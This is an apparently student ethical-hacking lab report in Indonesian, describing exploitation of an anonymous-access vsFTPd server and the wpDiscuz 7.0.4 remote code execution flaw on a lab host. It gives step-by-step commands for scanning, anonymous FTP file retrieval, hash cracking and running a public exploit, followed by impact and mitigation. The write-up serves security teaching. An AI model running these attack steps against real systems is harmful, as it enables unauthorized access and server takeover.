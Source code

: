 # ETHACK-PRAKTIKUM-2-2024

1. Cover Page

Nama Praktikan: Muhammad Kenas Galeno Putra
NRP: 5027231069
Judul Praktikum: Vulnerability Exploitation on FTP and WordPress Plugins

2. Nama Kerentanan

Vulnerable FTP: vsFTPd 3.0.5
Vulnerable WordPress Plugin: wpDiscuz 7.0.4 (Remote Code Execution)

3. Deskripsi Kerentanan

Vulnerable FTP: Kerentanan pada server FTP ini memungkinkan akses anonymous, sehingga siapa pun bisa mengakses dan mengunduh file tanpa autentikasi, yang dapat berisiko jika file tersebut berisi informasi sensitif.
Vulnerable WordPress Plugin: Plugin wpDiscuz versi 7.0.4 rentan terhadap Remote Code Execution (RCE), memungkinkan penyerang menjalankan perintah di server yang menggunakan plugin ini.

4. CVSS Score

Vulnerable FTP: CVSS Score: 5.0 (Medium) – Risiko dari akses unauthorized namun tidak langsung memberikan kendali penuh ke sistem.
wpDiscuz RCE: CVSS Score: 9.8 (Critical) – Kerentanan RCE memberikan akses penuh penyerang ke server.

5. Langkah Pengerjaan

Vulnerable FTP:
Pindai server untuk menemukan port yang terbuka:
```bash
nmap -p- 10.15.42.245
```
Pindai kerentanan FTP dengan Nmap:
````bash
nmap --script=ftp-anon,ftp-vsftpd-backdoor -p21 10.15.42.245
```
Login ke FTP menggunakan akun anonymous:
```bash
ftp 10.15.42.245
```
Download file yang ditemukan:
```bash
ls
get list.xyz
get readme.txt
```
Mencari username atau password dalam file:
```bash
cat list.xyz
grep -i "ethack" list.xyz
```
Simpan hash dan crack dengan John the Ripper:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
Vulnerable WordPress Plugin:
Gunakan GoBuster untuk mencari direktori tersembunyi:
```bash
gobuster dir --url http://10.15.42.245:487 --wordlist /usr/share/wordlists/dirb/common.txt
```
Gunakan wpscan untuk mendeteksi plugin WordPress yang terinstal:
```bash
wpscan --url http://10.15.42.245:487 --enumerate p
```
Clone exploit wpDiscuz:
```bash
git clone https://github.com/hev0x/CVE-2020-24186-wpDiscuz-7.0.4-RCE
```
Jalankan exploit:
```bash
sudo python3 wpDiscuz_RemoteCodeExec.py -u http://10.15.42.245:487 -p /2024/10/03/trial/
```
Tampilkan:
```bash
ls
```

6. Dampak

Vulnerable FTP: Akses unauthorized memungkinkan pengunduhan file yang mungkin berisi informasi sensitif seperti hash password, data pengguna, atau file penting lainnya.
wpDiscuz RCE: Penyerang bisa mengeksekusi perintah di server, yang bisa mengarah ke kontrol penuh atas server WordPress, termasuk pencurian data, defacement website, dan tindakan jahat lainnya.

7. Mitigasi

FTP Vulnerability:
Nonaktifkan akses anonymous pada FTP.
Gunakan protokol yang lebih aman seperti SFTP atau FTPS.
wpDiscuz RCE:
Patch plugin ke versi terbaru.
Batasi akses ke plugin dan pantau aktivitas server secara berkala untuk mendeteksi aktivitas mencurigakan.
